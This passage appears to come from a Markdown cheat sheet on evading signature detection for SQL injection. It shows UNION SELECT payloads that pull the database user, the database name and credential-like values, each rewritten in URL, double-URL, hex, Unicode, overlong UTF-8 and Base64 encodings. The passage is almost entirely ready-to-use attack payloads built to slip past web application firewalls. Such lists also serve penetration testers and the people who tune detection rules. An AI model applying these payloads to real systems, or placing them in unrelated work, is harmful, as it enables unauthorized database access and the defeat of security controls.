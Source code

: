 Converting attack payloads into different character encodings to bypass signature detection.

#### URL Encoding
```sql
-- Original payload
' UNION SELECT user(),database()--

-- URL encoded
%27%20UNION%20SELECT%20user()%2Cdatabase()%2D%2D

-- Double URL encoding  
%2527%2520UNION%2520SELECT%2520user()%252Cdatabase()%252D%252D

-- Mixed encoding
'%20UNION%20SELECT%20user()%2Cdatabase()--
```

#### Hex Encoding
```sql
-- Original payload
' UNION SELECT 'admin','password'

-- Hex encoded values
' UNION SELECT 0x61646D696E,0x70617373776F7264

-- Mixed hex and string
' UNION SELECT CHAR(97,100,109,105,110),0x70617373776F7264
```

#### Unicode Encoding
```sql
-- Original payload
' UNION SELECT user()--

-- Unicode encoded
\u0027\u0020UNION\u0020SELECT\u0020user()\u002D\u002D

-- UTF-8 encoded
%C0%A7 UNION SELECT user()%C0%AD%C0%AD
```

#### Base64 Encoding (Context-Dependent)
```sql
-- Base64 encoded payload (when supported)
Original: ' UNION SELECT user()--
Base64: JyBVTklPTiBTRUxFQ1QgdXNlcigpLS0=

-- Used in specific contexts like JSON
{"query": "JyBVTklPTiBTRUxFQ1QgdXNlcigpLS0="}
```

### String Concatenation Evasion
